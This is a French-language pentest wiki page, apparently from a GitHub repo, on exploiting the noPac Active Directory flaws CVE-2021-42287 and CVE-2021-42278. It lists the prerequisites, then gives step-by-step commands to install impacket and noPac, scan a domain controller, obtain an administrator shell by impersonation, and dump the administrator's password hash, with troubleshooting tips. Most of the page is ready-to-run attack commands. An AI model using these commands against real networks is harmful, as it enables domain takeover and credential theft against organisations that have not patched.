 ```yaml
---
public: true # set to true to make the article publishable
---
```


|  |  |
| --- | --- |
| CVE | [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) et  [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) |
| Correctif fixant la vulnérabilité | CU 2021-11 |

## Eléments nécessaires à l'exploitation

- MAJ Windows appliquées inférieures à 2021-11
- `ms-DS-MachineAccountQuota` doit être supérieur à 0 pour nous permettre de créer un compte d'ordinateur

## Exploitation

### Installation de l'outil

```shell
# installer impacket
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install 
# cloner le dépot de l'exploit
git clone https://github.com/Ridter/noPac.git

```

### Lancement du scanner pour vérifier si la cible est vulnérable

```shell
sudo python3 scanner.py $AD_DOMAIN/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP -use-ldap
```

### Obtention d'un shell sur le controlleur de domaine

```shell
sudo python3 noPac.py $AD_DOMAIN/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP   -dc-host $DC_HOSTNAME -shell --impersonate administrator -use-ldap
```

On pourra utiliser différents shells à l'aide des paramètres suivants :

```shell
-exec-method smbexec
-exec-method wmiexec
-exec-method mmcexec
```

**Message d'erreur possible** :

```shell
[-] Pls use full domain name, such as: domain.com/username
```

Ce message apparaît si le nom du domaine saisit n'est pas écrit en majuscule apparemment (pas eu le temps de chercher la cause de ce problème)

### Dump de Hash

**Attention aux subtilités**

- noPac.py prend en premier paramètre les identifiants d'un utilisateurs du domaine préfixés par **le nom de domaine DNS**
- a l'inverse, le paramètre -just-dc-user ne retourne un résultat que si on préfixe l'utilisateur par le nom de domaine **NETBIOS**

```shell
sudo python noPac.py DOMAIN.DNS.LOCAL/$AD_USER:$AD_PASSWORD -dc-ip $TARGET_IP  -dc-host domainControllerHostname  --impersonate administrator  -dump -just-dc-user NETBIOS_DOMAIN/administrator -just-dc
```
